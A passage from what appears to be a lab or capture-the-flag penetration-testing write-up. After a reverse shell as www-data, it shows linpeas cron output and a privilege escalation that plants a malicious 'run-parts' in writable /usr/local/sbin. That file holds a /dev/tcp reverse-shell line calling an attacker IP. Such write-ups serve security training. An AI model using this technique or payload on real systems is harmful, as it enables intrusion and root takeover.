![request burp](../images/maldev/req_burp.png)

From there, we got a reverse shell and escalated to a full tty shell..
```bash
www-data@ip-172-16-1-229:/var/www/html/public$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Post Exploitation
Running `linpeas`, we found that we have write permissions on `/usr/local/sbin` and that a `run-parts` cronjob is running. We noticed that the first path the cron will look for is `/usr/local/sbin`, allowing us to create a malicious binary for privilege escalation. Reference: [Privilege Escalation via Cron](https://medium.com/swlh/privilege-escalation-via-cron-812a9da9cf1a)
```bash
╔══════════╣ Systemd PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#systemd-path-relative-paths
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

* *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

Then, we created the malicious binary and uploaded an `nc`.
```bash
www-data@ip-172-16-1-229:/usr/local/sbin$ nano run-parts
www-data@ip-172-16-1-229:/usr/local/sbin$ chmod +x run-parts 
www-data@ip-172-16-1-229:/usr/local/sbin$ cat run-parts 
/bin/bash -c 'sh -i >& /dev/tcp/10.0.10.235/1234 0>&1'
```

Now, we just have to wait for the privilege escalation.